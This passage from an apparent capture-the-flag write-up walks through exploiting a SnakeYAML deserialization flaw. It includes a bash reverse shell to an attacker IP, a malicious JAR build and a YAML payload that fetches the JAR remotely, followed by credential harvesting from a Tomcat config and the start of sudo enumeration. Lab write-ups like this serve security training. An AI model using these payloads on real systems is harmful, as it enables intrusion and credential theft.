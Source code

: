 and here's the `shell.sh` script
```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.35/4444 0>&1'
```

now compressing the `.java` file to the `java` package \(`.jar`\).
```bash
vagrant@ubuntu-xenial:~/tools/yaml-payload$ javac src/artsploit/AwesomeScriptEngineFactory.java
vagrant@ubuntu-xenial:~/tools/yaml-payload$ jar -cvf shell.jar -C src/ .
added manifest
adding: artsploit/(in = 0) (out= 0)(stored 0%)
adding: artsploit/AwesomeScriptEngineFactory.java(in = 1570) (out= 416)(deflated 73%)
adding: artsploit/AwesomeScriptEngineFactory.class(in = 1679) (out= 705)(deflated 58%)
ignoring entry META-INF/
adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
```

**NOTE:** Make sure that your `jdk` version is equal or older than version 11.

now create python http server and here's payload to get the code execution, make sure to start the listner before submitting the payload to `yaml` field.
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.35/shell.jar"]
  )
]
```

and here we got the shell and we are in the system.

### User Flag
while enumerating the machine got the credentials of the `admin` user inside the configuration file of `Apache Tomcat` here `/opt/tomcat/conf/tomcat-users.xsd`
```html
<user username="admin" password="xxxxxxxxxxxxxxxx" roles="manager-gui,admin-gui"/>
```

and now we are user `admin`, so here's the user flag.

#### Flag
```bash
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

## Privilege Escalation

### Enumeration
and here we go our user can run `index.go` as root user.
```bash
admin@ophiuchi:~$ sudo -l
Matching Defaults entries for admin on ophiuchi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
```
